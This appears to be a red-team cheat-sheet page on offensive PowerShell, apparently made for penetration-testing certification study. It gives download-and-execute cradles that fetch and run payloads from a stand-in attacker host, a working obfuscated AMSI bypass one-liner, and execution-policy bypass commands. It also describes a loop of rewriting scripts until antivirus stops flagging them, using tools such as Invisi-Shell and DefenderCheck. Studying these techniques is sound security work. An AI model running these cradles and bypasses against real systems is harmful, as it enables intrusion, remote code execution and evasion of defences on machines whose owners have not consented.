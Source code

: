 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PowerShell

## PowerShell

**PowerShell** **(PS)** is not just `powershell.exe`—it’s an automation framework built on the .NET assembly `System.Management.Automation.dll`. This DLL is the core engine that drives all PS functionality, and can be hosted by any .NET application, not just the shell itself. Think of .NET as the toolbox, the DLL as a power tool, and PS as the app that puts it to work.

PS provides a CLI interface, a scripting language, and a configuration and automation framework. It is cross-platform, scriptable, and integrates deeply with Windows internals, making it ideal for red team operations and post-exploitation tooling.

PS supports flexible script execution, including in-memory loading:

```powershell
# Dot-source a script into the current session
. c:\ad\tools\PowerView.ps1

# Import a module (manifest or binary)
Import-Module c:\ad\tools\ActiveDirectory.psd1

# List commands from a loaded module
Get-Command -Module <ModuleName>
```

## Cradles

A **cradle** is a technique to download and execute PS code directly in memory to avoid writing to disk—commonly used for payload delivery and evasion.

{% tabs %}
{% tab title="PSv3+" %}
```powershell
iex (iwr 'http://attacker/payload.ps1')
```
{% endtab %}

{% tab title="WebClient" %}
Legacy method:

```powershell
iex (New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')
```
{% endtab %}

{% tab title="XMLHTTP" %}
Less commonly used:

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP
$h.open('GET','http://webserver/payload.ps1',$false)
$h.send()
iex $h.responseText
```
{% endtab %}

{% tab title="IE COM Object" %}
Older method:

```powershell
$ie=New-Object -ComObject InternetExplorer.Application
$ie.visible=$False
$ie.navigate('http://webserver/payload.ps1')
sleep 5
$response=$ie.Document.body.innerHTML
$ie.quit()
iex $response
```
{% endtab %}
{% endtabs %}

## Security Controls

PS includes several built-in security features:

* **Script Block Logging** records parsed PS code, including decoded/expanded commands. Enabled by default on modern systems.
* **System-Wide Transcription** logs all input/output regardless of host but is rarely deployed. Its logs are stored unprotected in plaintext.
* **AMSI (Anti-Malware Scan Interface)** scans scripts before execution and sends them to the installed AV; bypassable with obfuscation or memory injection.
* **Constrained Language Mode (CLM)** restricts .NET usage and native API access; enforced via AppLocker/WDAC.

<mark style="background-color:yellow;">**Execution Policy**</mark> <mark style="background-color:yellow;"></mark><mark style="background-color:yellow;">(EP) IS NOT a security feature</mark>; it governs script execution behavior to prevent accidental script execution.

{% tabs %}
{% tab title="AMSI Bypass" %}
Check [AMSI.fail](https://amsi.fail/).

From CRTP:

{% code overflow="wrap" %}
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}
{% endtab %}

{% tab title="Execution Policy Bypass" %}
```powershell
powershell -ep bypass
powershell -ExecutionPolicy Bypass -File script.ps1
powershell -encodedcommand <base64>
$env:PSExecutionPolicyPreference = "Bypass"
```
{% endtab %}
{% endtabs %}

## Obfuscation & Evasion

### Invisi-Shell

[Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) bypasses logging and AMSI by injecting directly into memory using .NET hosting APIs:

{% hint style="warning" %}
Type `exit` to clean up the session!
{% endhint %}

{% tabs %}
{% tab title="Admin Privs" %}
```powershell
RunWithPathAsAdmin.bat
```
{% endtab %}

{% tab title="Low Privs" %}
```powershell
RunWithRegistryNonAdmin.bat
```
{% endtab %}
{% endtabs %}

### Static Signatures

[AmsiTrigger](https://github.com/RythmStick/AMSITrigger) and [DefenderCheck](https://github.com/matterpreter/DefenderCheck) help identify and iteratively sanitize code segments that trigger AV/EDR detections.

{% hint style="success" %}
Scan → Manually modify → Rescan → Repeat until success
{% endhint %}

{% tabs %}
{% tab title="AmsiTrigger" %}
```powershell
AmsiTrigger_x64.exe -i PowerUp.ps1
```
{% endtab %}

{% tab title="DefenderCheck" %}
```powershell
DefenderCheck.exe PowerUp.ps1
```
{% endtab %}
{% endtabs %}

### Invoke-Obfuscation

Use [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) for on-the-fly  full PS script obfuscation.
